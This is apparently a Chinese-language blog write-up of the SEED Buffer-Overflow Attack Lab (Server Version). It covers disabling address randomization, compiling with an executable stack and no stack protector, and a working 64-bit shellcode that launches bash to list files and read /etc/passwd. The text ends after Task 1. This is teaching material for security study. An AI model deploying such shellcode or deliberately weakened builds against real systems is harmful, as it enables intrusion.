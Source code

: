 ```yaml
---
layout: post
title: "Buffer-Overflow Attack Lab (Server Version)"
date: 2024-04-25
categories: [SEED-Labs, Software-Security]
tags: [Overflow]
---
```


# Buffer-Overflow Attack Lab (Server Version)

注：除bonus外都为官方task 。

# Overview

本lab的主要目的是实施缓冲区溢出攻击以及研究如何防御。缓冲功能区

首先关闭随机化地址。

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

编译的指令如下。其中 `-z execstack` 这个 flag 可以让栈可执行。 `-fno-stack-protector` 这个flag会关闭GCC的栈保护功能，栈保护功能会检查缓冲溢出。

```bash
gcc -DBUF_SIZE=$(L1) -o stack -z execstack -fno-stack-protector stack.c
```

使用 `docker-compose up` 启动这些容器后，还需要用 `docker exec` 来在某个容器中起一个 shell 。可以用 `docker ps` 来查询容器的id，输入id时不需要输入完整的id，只要一部分没有二义性的前缀就可以了。

# Task 1: Get Familiar with the Shellcode

首先看一下这段64位shellcode。

```python
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

